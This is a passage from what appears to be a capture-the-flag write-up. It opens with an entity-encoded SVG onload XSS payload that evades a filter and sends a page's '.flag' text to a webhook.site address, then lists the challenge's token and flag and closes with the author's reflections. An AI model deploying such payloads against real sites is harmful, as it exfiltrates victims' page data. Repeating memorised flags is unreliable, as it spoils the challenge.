<svg/oonnload="&#x6c;&#x6f;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x3d;&#x27;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x77;&#x65;&#x62;&#x68;&#x6f;&#x6f;&#x6b;&#x2e;&#x73;&#x69;&#x74;&#x65;&#x2f;&#x38;&#x63;&#x65;&#x32;&#x32;&#x33;&#x62;&#x34;&#x2d;&#x65;&#x38;&#x65;&#x64;&#x2d;&#x34;&#x36;&#x31;&#x33;&#x2d;&#x39;&#x33;&#x35;&#x65;&#x2d;&#x64;&#x37;&#x39;&#x31;&#x65;&#x37;&#x63;&#x38;&#x61;&#x61;&#x63;&#x61;&#x3f;&#x66;&#x6c;&#x61;&#x67;&#x3d;&#x27;&#x2b;&#x64;&#x6f;&#x63;&#x75;&#x6d;&#x65;&#x6e;&#x74;&#x2e;&#x71;&#x75;&#x65;&#x72;&#x79;&#x53;&#x65;&#x6c;&#x65;&#x63;&#x74;&#x6f;&#x72;&#x28;&#x27;&#x2e;&#x66;&#x6c;&#x61;&#x67;&#x27;&#x29;&#x2e;&#x69;&#x6e;&#x6e;&#x65;&#x72;&#x54;&#x65;&#x78;&#x74;"//
```
- Token: `purell-token{y0u_4r3_th3_0n3_wh0_c4ll5}`
- Flag: _1nf3c71ng_3v34y_1}

Complete flag: `lactf{1_4m_z3_b3s7_x40ss_h4nd_g34m_4cr0ss_411_t1m3_4nd_z_un1v3rs3_1nf3c71ng_3v34y_1}`

## Foreward

Went good especially for first time being in a "legit"(?) team ig. I srsly need to get better at pwn bruh cus 1/11 doesn't cut it and being unable to solve the like 141 solution program is a big warning sign.